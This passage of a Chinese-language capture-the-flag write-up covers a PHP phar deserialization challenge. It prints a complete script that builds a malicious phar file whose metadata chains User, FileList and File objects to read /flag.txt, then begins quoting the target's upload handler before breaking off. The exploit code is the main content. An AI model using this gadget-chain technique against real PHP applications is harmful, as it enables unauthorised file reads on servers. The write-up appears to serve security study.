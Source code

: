 但是这个exp不能用，因为获取到的flag内容没有回显

所以中途还要经过fileLise类



```javascript
<?php
class User {
    public $db;
}

class File {
    public $filename;
}
class FileList {
    private $files;
    private $results;
    private $funcs;

    public function __construct() {
        $file = new File();
        $file->filename = '/flag.txt';
        $this->files = array($file);
        $this->results = array();
        $this->funcs = array();
    }
}

@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar

$phar->startBuffering();

$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

$o = new User();
$o->db = new FileList();

$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("exp.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```



# 5. 上传构造的phar文件

upload.php文件

```javascript
if (isset($_FILES["file"])) {
    $filename = $_FILES["file"]["name"];
    $pos = strrpos($filename, ".");
    if ($pos !== false) {
        $filename = substr($filename, 0, $pos);
    }

    $fileext = ".gif";
    switch ($_FILES["file"]["type"]) {
        case 'image/gif':
            $fileext = ".gif";
            break;
        case 'image/jpeg':
            $fileext = ".jpg";
```